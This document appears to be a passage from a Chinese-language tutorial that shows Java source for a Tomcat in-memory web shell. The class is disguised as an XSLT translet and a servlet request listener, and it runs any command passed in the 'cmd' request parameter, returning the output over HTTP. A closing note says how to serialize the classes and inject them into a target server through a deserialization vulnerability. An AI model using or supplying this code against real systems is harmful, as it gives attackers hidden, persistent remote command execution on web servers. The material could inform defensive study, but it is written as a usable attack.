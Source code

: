 ```java
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try{
            HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
            Field requestF = req.getClass().getDeclaredField("request");
            requestF.setAccessible(true);
            Request request = (Request)requestF.get(req);
            //通过resquest获取response
            HttpServletResponse response = request.getResponse();
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                response.getOutputStream().write(stringBuilder.toString().getBytes());
                response.getOutputStream().flush();
                response.getOutputStream().close();
                return;
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
编译生成对应的TomcatEcho.class,TomcatInjectListener.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInjectListener.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入
